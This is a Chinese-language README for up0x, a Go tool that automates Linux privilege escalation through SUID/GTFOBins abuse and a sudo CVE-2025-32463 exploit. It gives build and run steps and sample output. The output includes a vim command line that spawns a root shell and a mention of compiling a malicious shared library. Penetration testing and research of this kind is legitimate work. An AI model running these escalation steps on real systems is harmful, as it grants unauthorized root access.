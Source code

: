# up0x

一款集合常见提权方法的提权工具

## 项目简介

up0x 是一个面向渗透测试人员与安全研究者的 Linux 提权工具，集合了多种常见提权检测与利用方法，涵盖了 SUID 配置错误、CVE 漏洞利用（如 Sudo、特定年份的高危漏洞）等功能。

## 功能特性

- **SUID 检测与利用**：自动扫描系统中的 SUID 文件，并尝试利用常见的提权方法（如 GTFOBins）进行提权。
- **Sudo 漏洞检测与利用**：自动检测系统 Sudo 版本，判断是否存在已知高危漏洞（如 CVE-2025-32463），并尝试进行漏洞利用。
- **CVE 漏洞集成**：内置多种 CVE 漏洞利用模块，便于一键检测和利用。

## 使用方法

### 编译

本项目使用 Go 语言开发，需先安装 Go 环境。

```bash
git clone https://github.com/g0ubu1i/up0x.git
cd up0x
go build -o up0x main.go
```

### 运行

```bash
./up0x
```

运行后，工具将自动：

- 输出程序信息和作者
- 检查系统 SUID 配置并尝试利用
- 检查 Sudo 版本并检测/利用对应 CVE 漏洞

### 输出示例

```
██    ██ ██████   ██████  ██   ██ 
██    ██ ██   ██ ██  ████  ██ ██   
██    ██ ██████  ██ ██ ██   ███   
██    ██ ██      ████  ██  ██ ██  
 ██████  ██       ██████  ██   ██ 
  author: g0ubu1i

[+] up0x start work
[+] check SUID ...
find SUID: /usr/bin/vim
try get root: /usr/bin/vim [-c :py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")]
...
[+] check Sudo version
[+] Sudo version: 1.9.15
[+] CVE-2025-32463 vulnerability found
[+] Compiled malicious shared library.
[+] Created stage directory: /tmp/sudowoot.stage.xxxxx
```

## 支持的提权方式

- SUID 程序利用（覆盖常见 GTFOBins，如 python3, vim, find, awk, bash, cp, less, more, nano, ed, env, expect, ftp, gdb, git, lua, perl, php, ruby, scp, tar, timeout, rsync, zsh, chmod 等）
- Sudo 漏洞（如 CVE-2025-32463 等）
- 可扩展更多 CVE 漏洞和自定义利用方式

## 免责声明

本工具仅供学习与安全测试使用，禁止用于非法用途。因使用本工具产生的任何后果与作者无关。

## 致谢

- [GTFOBins](https://gtfobins.github.io/)
- 安全社区与所有开源贡献者

---

> 作者：g0ubu1i  
> 仓库地址：https://github.com/g0ubu1i/up0x